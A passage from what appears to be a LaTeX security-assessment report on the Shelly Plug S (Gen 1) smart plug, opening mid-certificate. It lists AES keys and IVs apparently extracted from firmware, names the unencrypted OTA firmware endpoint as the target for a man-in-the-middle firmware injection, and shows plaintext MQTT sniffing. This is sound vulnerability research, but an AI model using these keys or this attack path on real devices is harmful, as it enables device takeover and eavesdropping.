g7B5NcQObiMe6djUvwo0c2Xl9L+P9LOskP2WNDdpquX3XJu580hXHHVBmwOgJ0fi
+5U9mOFHhc1gYGLmhO9oqsE80SgpmsPQHloMIqmcaolLzgC9PWGu8nSDToJq+dXy
NFHzLVyBEugHQpeIR8Fq0do4dtlsfTWvv9U+fpGPegjdkPenSxGrOVwdsyFzNahx
QGKmpZE/1fsq5QSh9+Z
gwpdDChVNpkj9TBC1ApDTUasNco/6Meb/0XurpxpWPNfk
IpZ7ebtGHVd/ZkGTPUnL7FXHAgMBAAGjUDBOMB0GA1UdDgQWBBRn4Wja69QmBliB
fIg3fkettiukNDAfBgNVHSMEGDAWgBRn4Wja69QmBliBfIg3fkettiukNDAMBgNV
HRMEBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBJ3GGiYs8w65ZK2bn+r6orN6Ni
FJv9r2vTxK
Arv5iSzvMky4L+8V6xBE4iCR1bfPMP/Iz8yfNEH3wStpBdyctjik8B
VX3XgiDmO0lZFRyMT6F4Z+H9obqYu3dMSGtQrfsVHqlBQVWjbXQSTmCvAQBLRym0
FT8mQ6Qt/bvb2F2y1QtFhHWqUnjiwWui5F2+hb2xJdI80QSI1v0tw4V0IaOHcPQT
3QAyDHujNhZGfeY9m8vJFfEDe2JvMx+wp27V5AyRMO0nfk8yJDSUSBXLpkH6ExkH
aUta9TCY9Mg7vLEmM7H2LTrVawi1PrZj2gEdkEZL/9r2H1PAN7NQtpG9Mur
-----END CERTIFICATE-----
    \end{verbatim}

\item \textbf{Encryptions informatons}:

\begin{verbatim}
/home/gitlab-runner/builds/pVZxXfWf/0/She/shelly/shelly-common/cloud_aes.c
aes-internal-enc.c
  { "aes_key": "403d3d45f9b96ced81a98f032def693e",
    "aes_iv": "b811c906d70565e9bdc83cff3ca38605"},
  
  { "aes_key": "a54cee7a138a1f1e22819fb65911daa3",
    "aes_iv": "7b9d3cabcfb872e1bb25938548b7a494"},
  
  { "aes_key": "93b5f30271bf18c993e0b2a6dc0b1cd4",
    "aes_iv": "33df99be201a2326ef4a156eb3cfcf2c"},
  
  { "aes_key": "a8c1b8a705c8aa7c6d24",
    "aes_iv": "961f0a10417c1a2afaa610d880c2ca25"},
  
  { "aes_key": "720108495d63cba66274b7ae4bbbab74",
    "aes_iv": "38c7875e8d8fc9da88c925c129afba43"},
  
  { "aes_key": "c173df474b63656ba425be6975ec7e93",
    "aes_iv": "1d18a320e650fbfe141d208bfbbba68b"},
  
  { "aes_key": "2715d4e63bd5e0538af17f92b2b6c547",
    "aes_iv": "43ac5edf4ad75046d55b058432aaefd5"},
  
  { "aes_key": "4698d73b194a6bf75a97630c44a84820",
    "aes_iv": "46ed6177ff2330f4ac5e6be2ff6b36c0"},
  
  { "aes_key": "3c72611edcb5ba37bc455e7e74df2e6a",
    "aes_iv": "1f12d9366b8c1651f5a22bd830db0930"},
    
  { "aes_key": "177bdd5d99619613457a6181f134df02",
    "aes_iv": "f2b9426382aa54966f0c3e18d7bf28d7"},
    
  { "aes_key": "cb337b24d69fc3871eaacccaa668237f",
    "aes_iv": "83f8ce5bbd013296fab61fd18abe372f"},
  
  { "aes_key": "ea5822e253ab96772b9b590de3ac275e",
    "aes_iv": "793c6e9aa4c87662f91c6d9fe2eab64f"},
    
  { "aes_key": "6545bef05ffbb37bf0b27e2b15823fd8",
    "aes_iv": "a08203b539f59caf17b2f4df06ee8a02"},
  
  { "aes_key": "c7fca300f90c50983beecd46f3a986fc",
    "aes_iv": "9815c9253358cbe7bbaba6b7f0e4aa9a"},
    
  { "aes_key": "23553ebc700e8d60f143bbfcecce1b27",
    "aes_iv": "963da4a27a9045a5b57fcaeecc9968ae"},

  { "aes_key": "8025d668363f2ab4b6d0896410a9d4a5",
    "aes_iv": "aa8fbf160ac9c9f997388e4b28edc85b"}
  
\end{verbatim}

\item \textbf{Important URL's used}:

\begin{verbatim}
http://api.shelly.cloud/files/firmware
http://api.shelly.cloud/timezone/autodetect?time=%ld&fw=%s
http://api.shelly.cloud/timezone/tzinfo?tz=%s&time=%ld&fw=%s
\end{verbatim}

\end{itemize}

\noindent The most significant result of the static analysis was the identification of the official OTA update URL endpoint: \url{http://api.shelly.cloud/files/firmware}. Accessing this endpoint returned a JSON-formatted list containing references to all firmware releases for the various Shelly device models. This discovery is crucial for the next phase of the project, as it identifies the exact target for a Man-in-the-Middle (MITM) attack.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase1/url list.jpeg}
    \caption{GET result of the official firmware list endpoint}
    \label{fig:url_firmware_list}
\end{figure}


\subsection{Analysis of the OTA Update Mechanism}
The OTA (Over-the-Air) update mechanism of the Shelly Plug S (Gen 1) relies entirely on unencrypted HTTP communication. When a firmware update is initiated—either by the user through the local web interface or automatically via the cloud—the device sends an HTTP GET request to retrieve the binary file from the specified URL.

\noindent During this process, the device establishes a TCP connection over port 80 without any transport-layer encryption (SSL/TLS). Once the binary is downloaded, the bootloader writes the incoming data directly to the inactive flash partition. 

\noindent Crucially, the original firmware does not perform any cryptographic verification (such as digital signatures or public-key validation) to confirm the authenticity and integrity of the downloaded binary. The device only performs basic structural checks (magic bytes and checksum validation) on the ESP8266 image headers before swapping the active partition and rebooting. This complete lack of cryptographic signature verification allows an attacker to inject arbitrary binaries simply by intercepting the HTTP request and redirecting it to a server hosting a modified image, which is the exploit demonstrated in Phase 2.


\section{MQTT: Insecure Protocol Demonstration}
The original factory firmware of the Shelly Plug S relies on standard, unencrypted MQTT over TCP port 1883 for local communication and integration with home automation platforms. In this default configuration, all telemetry data—including real-time power consumption, voltage, and relay status—is transmitted across the network in plaintext. Similarly, control commands (such as switching the relay on or off) are sent without encryption or session authentication.

\noindent In the original firmware settings, MQTT can only be enabled under the "Advanced - Developer Settings" menu. As shown in Figure~\ref{fig:shelly_net_sec} and Figure~\ref{fig:shelly_mqtt_config}, the configuration parameters are limited to the broker's IP address, username, and password. There is no option to enable SSL/TLS encryption or configure client certificates for mutual authentication.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\linewidth]{Images/Fase1/Interfaccia3.png}
    \caption{Internet \& Security settings menu in the local Web UI}
    \label{fig:shelly_net_sec}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Images/Fase1/Interfaccia6.png}
    \caption{Advanced Developer Settings demonstrating the lack of MQTT encryption options}
    \label{fig:shelly_mqtt_config}
\end{figure}

\noindent To demonstrate this protocol vulnerability, a local traffic capture was performed using Wireshark on TCP port 1883. Since the communication is completely unencrypted, an attacker on the local network can intercept the telemetry topics in cleartext.

\noindent As shown in Figure~\ref{fig:wireshark_power}, the real-time active power consumption is transmitted in plaintext under the \texttt{relay/0/power} topic (capturing a payload of 11.78 W).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{Images/Fase1/MQTT1.png}
    \caption{Sniffed MQTT packet showing active power consumption in plaintext}
    \label{fig:wireshark_power}
\end{figure}

\noindent Similarly, cumulative energy values are exposed under the \texttt{relay/0/energy} topic (Figure~\ref{fig:wireshark_energy}), while the physical state of the relay (on/off) can be monitored in real time on the \texttt{relay/0} topic (Figure~\ref{fig:wireshark_state}).

\begin{figure}[H]
    \centering
